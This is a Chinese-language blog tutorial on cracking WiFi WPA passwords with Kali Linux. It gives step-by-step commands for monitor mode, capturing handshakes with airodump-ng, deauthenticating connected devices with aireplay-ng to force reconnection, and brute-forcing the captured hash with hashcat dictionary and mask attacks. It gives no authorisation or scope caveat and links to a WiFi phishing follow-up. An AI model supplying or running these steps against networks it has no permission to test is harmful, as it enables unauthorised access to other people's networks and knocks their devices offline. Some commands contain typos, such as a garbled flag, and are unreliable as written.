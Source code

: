 Kali Linux 使用 Hashcat 高效破解 WiFi 密码【暴力破解篇】

#### 1\. 前言

> [Hashcat](https://github.com/hashcat/hashcat) 是世界上最快、最先进的密码恢复应用程序，支持 300 多种高度优化的哈希算法的五种独特的攻击模式。Hashcat 目前支持 Linux、Windows 和 macOS 上的 CPU、GPU 和其他硬件加速器，并具有帮助实现分布式密码破解的功能。

#### 2\. 准备工作

*   Kali 免驱无线网卡

*   Kali 虚拟机或实体机


> Kali 免驱网卡可以直接在网上购买，注意问清楚商家 Kali 系统是否免驱，是否支持监听和注入功能，能不能使用 airmon-ng 抓包。

Kali Linux下载地址：[https://www.kali.org/get-kali/](https://www.kali.org/get-kali/)

![](kali-linux.jpg)

#### 3\. 扫描目标 WiFi

> 首先将无线网卡插到电脑上，如果使用的是虚拟机的话，注意将无线网卡连接到虚拟机。

切换到 root 用户

    sudo -i

开启监听模式

    airmon-ng check
    airmon-ng check kill  // 关闭影响监听状态的进程
    airmon-ng start wlan0 

扫描附近的 WIFI（wlan0 也有可能是 wlan0mon，可以使用 `airmon-ng` 命令查看 Interface 名称）

    airodump-ng wlan0

如果出现 `Device or Resource is Busy` 的错误，并且执行 `airmon-ng` 命令查看 `PHY` 显示为 null，那么可以参考 [这个教程](https://playlab.eu.org/archives/kali-monitor) 更新无线网卡驱动解决

![](hashcat_01.jpg)

#### 4\. 抓取握手包

修改并执行以下的命令(根据实际需要选一个)，以扫描到的“Play\_Lab”热点为例：

    airodump-ng -c 1 --bssid 1E:FE:E7:D4:F7:1C -w /home/kali/Desktop/play_lab  wlan0 

    airodump-ng -w freedom -c 11 --bssid 9C:2E:A1:20:65:BC wlan0mon -ignore-nefative-oneaa (ivs)

    airodump-ng -w test -c 11 --bssid  C0:F4:E6:CD:03:EC wlan0mon -aa --output-format pcap (指定pcap格式)

`-c` WiFi 的 CH

`--bssid` WiFi 的 BSSID

`-w` 握手文件存放路径和名称

当有设备连接到这个 WiFi 的时候我们就可以抓取到握手包了，但是这种“守株待兔”的方式通常是比较浪费时间的，所以我们需要发起“主动攻击”。

> 原理是通过发送大量的握手请求把其他设备踢下线，一般情况下线的设备都会自动重连 WiFi，这个时候就可以抓取到握手包了。

打开一个新的终端窗口，修改并执行以下命令：

    aireplay-ng -0 2 -a 1E:FE:E7:D4:F7:1C -c 36:9E:86:3F:BD:8A wlan0

`-a` WiFi 的 BSSID

`-c` 已连接设备的 MAC 地址

![](hashcat_02.jpg)

当右上角出现"WPA handshake"握手包就抓取成功了

![](hashcat_03.jpg)

#### 5.1 字典暴力破解

> 由于 Hashcat 需要使用 GPU 才能高效破解密码，所以需要确保你的 Kali Linux 可以正常驱动显卡，或者直接在 Windows 电脑上下载 [Hashcat](https://github.com/hashcat/hashcat/releases) 执行操作也是可以的。

首先需要通过 [Hashcat](https://hashcat.net/cap2hashcat/index.pl) 网站将 cap 文件转换为 hc22000 格式, 也可以通过下面这条命令转换格式.
```
hcxpcapngtool test.pcap -o test.hc22000
```

然后修改并执行下面的命令：

    hashcat -m 22000 xxx.hc22000 password.txt

`xxx` hc22000 文件名称

`password` 密码字典名称

密码字典可以通过 Google 或者 GitHub 搜索下载，推荐两个 GitHub 的字典：

[https://github.com/conwnet/wpa-dictionary](https://github.com/conwnet/wpa-dictionary)

[https://github.com/IYATT-yx/WiFi-Password-Dictionary](https://github.com/IYATT-yx/WiFi-Password-Dictionary)

> 字典模式的暴力破解成功率和字典的大小有直接关系，但是再大的字典，如果字典中没有这个 WiFi 的密码，那么最终还是无法破解，而且耗费的时间也会更久 XD。

#### 5.2 掩码暴力破解

除了使用字典暴力破解，我们还可以使用掩码暴力破解

例如我们知道 WiFi 密码是 8 位纯数字：

    hashcat -a 3 -m 22000 xxx.hc22000 ?d?d?d?d?d?d?d?d

或者 8-9 位小写字母开头+数字的组合：

    hashcat -a 3 -m 22000 xxx.hc22000 --increment --increment-min 8 --increment-max 9 ?l?d?d?d?d?d?d?d?d

我们还可以使用 `--session` 参数存储会话，程序中断之后可以继续执行

    hashcat -a 3 -m 22000 xxx.hc22000 --session sss --increment --increment-min 8 --increment-max 9 ?h?h?h?h?h?h?h?h?h

恢复会话，从上次的断点继续执行

    hashcat --session sss --restore

`sss` 存储的会话名称

破解完成后程序会自动停止运行，并且显示 WiFi 密码

![](hashcat_04.jpg)

#### 6\. 掩码字符说明：

`l` ：abcdefghijklmnopqrstuvwxyz \[a-z\]

`u` ：ABCDEFGHIJKLMNOPQRSTUVWXYZ \[A-Z\]

`d` ：0123456789 \[0-9\]

`h` ：0123456789abcdef \[0-9 a-f\]

`H` ：0123456789ABCDEF \[0-9 A-F\]

`s` ：!"#$%&'()\*+,-./:;<=>?@\[\\\]^\_\`{|}~

`a` ：?l?u?d?s

`b` ：0x00 - 0xff

#### 7\. Hashcat 相关参数说明

下面列出了常用参数的说明，全部参数的说明可以使用 `hashcat --help` 命令查看

`-a` 指定要使用的破解模式（0 字典攻击，1 组合攻击，3 掩码攻击）

`-m` 指定要破解的 Hash 类型（默认 MD5）

`-o` 指定成功破解的 Hash 和明文密码的存放位置

`--session` 存储当前会话

`--increment` 启用增量破解模式

`--increment-min` 密码最小长度（配合 --increment 参数使用）

`--increment-max` 密码最大长度（配合 --increment 参数使用）

`--force` 忽略警告信息

`--show` 显示成功破解的 Hash 和明文密码

#### 8\. 总结

通过 Hashcat 理论上可以破解任意组合的密码，拿到握手包后可以随时随地进行离线破解，破解难度也只是时间的问题，同时破解的速度和显卡的性能有很大的关系。

如果电脑的显卡性能不是很好的话，那么推荐使用 Fluxion 进行 WiFi 钓鱼，详细操作请查看：

[Kali Linux 使用 Fluxion 破解 WiFi 密码【WiFi 钓鱼篇】](https://playlab.eu.org/archives/fluxion)

文章作者： Play 实验室

本文链接： [https://playlab.eu.org/archives/hashcat](/archives/hashcat)

版权声明： 本站所有文章除特别声明外，均采用 [CC BY-NC-SA 4.0](https://creativecommons.org/licenses/by-nc-sa/4.0/) 许可协议。转载请注明来自 [Play 实验室](/)！
